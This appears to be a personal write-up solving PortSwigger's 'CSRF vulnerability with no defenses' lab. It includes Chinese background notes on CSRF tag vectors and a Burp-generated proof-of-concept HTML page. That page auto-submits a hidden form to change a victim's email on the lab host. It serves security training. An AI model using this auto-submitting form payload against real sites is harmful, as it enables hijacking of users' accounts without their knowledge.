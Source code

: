 ```yaml
---
title: CSRF - APPRENTICE
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF"
---
```


# CSRF - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
[TOC]
## Lab: CSRF vulnerability with no defenses
* Description: This lab's email change functionality is vulnerable to CSRF. 
* Goal: To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. 
You can log in to your own account using the following credentials: `wiener:peter`
* Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

## Background
:::spoiler
[CSRF 攻擊原理](https://medium.com/@Tommmmm/csrf-攻擊原理-d0f2a51810ca)
[[Day25]- 新手的Web系列CSRF](https://ithelp.ithome.com.tw/articles/10251769)
>1. 使用者登入網站
>2. 使用者透過身份驗證在本機形成cookie
>3. 使用者點擊含有惡意程式的連結，或是直接連結了第三方網站，並瀏覽了帶有以下html程式碼的網頁：`<img src=http://www.***.com/transfer.php?id=5&money=22>`
>4. 惡意程式碼利用使用者的身份發請求，即執行CSRF
>5. 使用者的帳號少錢錢勒QQ
>
> ![](https://i.imgur.com/gwCvSqZ.png)
>---
>>常見的CSRF方法
>* HTML標籤
>    * `<img>`標籤屬性
>        ```html
>        <img src="惡意連結">
>        ```
>    以GET方式請求第三方網站，瀏覽器會帶上使用者的cookie發出GET請求
>    
>    * `<script>`標籤屬性
>        ```javascript
>        `<script src="惡意連結">`
>        ```
>    * `<iframe>`標籤屬性
>        ```html
>        `<iframe src="惡意連結">`
>        ```
:::

## Recon
1. According to the description
It said the email change function has some CSRF exploitation. So, maybe I can login by username and password they provided.
![](https://i.imgur.com/YW4dJqa.png)
2. Find where has CSRF
Then I tried to change my email and trace the package
![](https://i.imgur.com/z2AXOk1.png)

3. Then we can forge a website and let our victim to access
In this lab, PortSwigger provided an exploited server that can simulate a victim to access.

## Exp
Directly create CSRF PoC by Burp Suit
![](https://i.imgur.com/oY6NlZE.png)

Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>

    <form action="https://0a050071049c31f4815898e900330005.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/nlgu1Oa.png)
:::

## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)
[Lab: CSRF vulnerability with no defenses - write up](https://blog.csdn.net/ZripenYe/article/details/120793709)
